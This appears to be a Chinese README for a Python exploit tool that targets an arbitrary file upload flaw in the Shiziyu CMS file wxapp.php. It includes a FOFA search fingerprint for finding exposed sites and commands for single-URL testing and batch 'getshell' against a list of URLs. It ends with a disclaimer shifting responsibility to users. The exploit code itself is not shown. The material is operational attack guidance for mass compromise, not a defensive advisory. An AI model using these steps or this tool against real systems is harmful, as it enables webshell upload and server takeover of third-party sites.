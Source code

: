 # shiziyu_upload

狮子鱼cms wxapp.php存在任意文件上传漏洞，攻击者可直接上传木马获取服务器权限。


## 漏洞影响

狮子鱼cms

## FOFA指纹

"/seller.php?s=/Public/login"

## 工具利用

python3 shiziyu_upload.py -u http://127.0.0.1:1111 单个url测试

python3 shiziyu_upload.py -f url.txt 批量getshell
![exp](./exp.png)

## 免责声明

由于传播、利用此文所提供的信息而造成的任何直接或者间接的后果及损失，均由使用者本人负责，作者不为此承担任何责任。
